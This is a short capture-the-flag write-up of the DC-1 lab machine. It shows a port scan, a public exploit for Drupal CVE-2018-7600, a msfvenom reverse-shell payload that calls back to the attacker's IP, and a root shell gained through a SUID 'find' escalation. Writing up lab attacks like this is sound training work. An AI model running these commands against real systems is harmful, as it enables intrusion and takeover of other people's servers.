 # DC-1

![[Pasted image 20220509080859.png]]

## Port scan
```nmap
22/tcp    open  ssh     syn-ack ttl 64 OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
80/tcp    open  http    syn-ack ttl 64 Apache httpd 2.2.22 ((Debian))
111/tcp   open  rpcbind syn-ack ttl 64 2-4 (RPC #100000)
53381/tcp open  status  syn-ack ttl 64 1 (RPC #100024)
```

## Port 80: Drupal 7
![[Pasted image 20220509080908.png]]

Vulnerable to CVE-2018-7600

[exploit for drupal 7 < 7.57](https://github.com/pimps/CVE-2018-7600)
```bash
./drupa7-CVE-2018-7600.py -c whoami http://192.168.1.114:80/
```

![[Pasted image 20220509081008.png]]

check the architecture

![[Pasted image 20220509081128.png]]

generate a reverse shell with

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.112 LPORT=80 -f elf -o reverse.elf 
```

copy the payload over using python3 webserver and wget.

reverse shell

![[Pasted image 20220509081313.png]]

fix it

```python3
python -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
export TERM=xterm
```

## Linpeas findings

credentials to the backend db of drupal

![[Pasted image 20220509081411.png]]

SUID set for `/usr/bin/find` exploitable with the following (sourced from [GTFObins](https://gtfobins.github.io/gtfobins/find/#suid))

```bash
find . -exec /bin/sh \; -quit
```

got a root shell

![[Pasted image 20220509081532.png]]

There are 2 users in the db

![[Pasted image 20220509081713.png]]

Maybe I'll come back and try to recover their passwords someday.